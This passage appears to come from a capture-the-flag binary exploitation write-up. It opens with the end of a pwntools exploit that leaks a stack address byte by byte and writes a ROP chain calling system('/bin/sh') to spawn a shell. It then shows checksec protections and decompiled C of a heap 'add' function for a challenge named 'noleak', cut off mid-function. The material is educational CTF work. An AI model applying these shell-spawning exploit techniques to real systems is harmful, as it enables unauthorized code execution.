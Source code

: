 ```python
leak('pop rdi',pop_rdi)

off_1, off_80 = cal_offset(env, textbase)
temp = int(math.sqrt(off_80))
off_1 = (off_80 - temp**2)*80 + off_1
stack_leak = ''
for i in range(off_1,off_1+6):
    sh.sendline(str(i))
    sh.sendline(str(temp))
    sh.sendline(str(temp))
    rev = u8(sh.recv(1))
    stack_leak = stack_leak+p8(rev)
    leak(str(i-off_1),rev)
stack_leak = u64(stack_leak.ljust(8,'\x00'))-0xf0
leak('stack_leak',stack_leak)

write(stack_leak, textbase, pop_rdi)
write(stack_leak+8, textbase, binsh)
write(stack_leak+16, textbase, system)

sh.interactive()
```

# noleak

## check

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## IDA

**add**

```c
__int64 add()
{
  __int64 result; // rax
  int v1; // [rsp+0h] [rbp-10h]
  int nbytes; // [rsp+4h] [rbp-Ch]
  void *nbytes_4; // [rsp+8h] [rbp-8h]

  puts("Input index:");
  v1 = sub_9E0();
  puts("Input size:");
  nbytes = sub_9E0();
  if ( v1 < 0 || v1 > 10 || nbytes < 0 || nbytes > 496 )
  {
    puts("index or size invalid!");
    result = 0xFFFFFFFFLL;
  }
  else
  {
    nbytes_4 = malloc(nbytes);
    puts("Input data:");
    read(0, nbytes_4, (unsigned int)nbytes);
    *((_QWORD *)&unk_2020C0 + 2 * v1) = nbytes_4;
```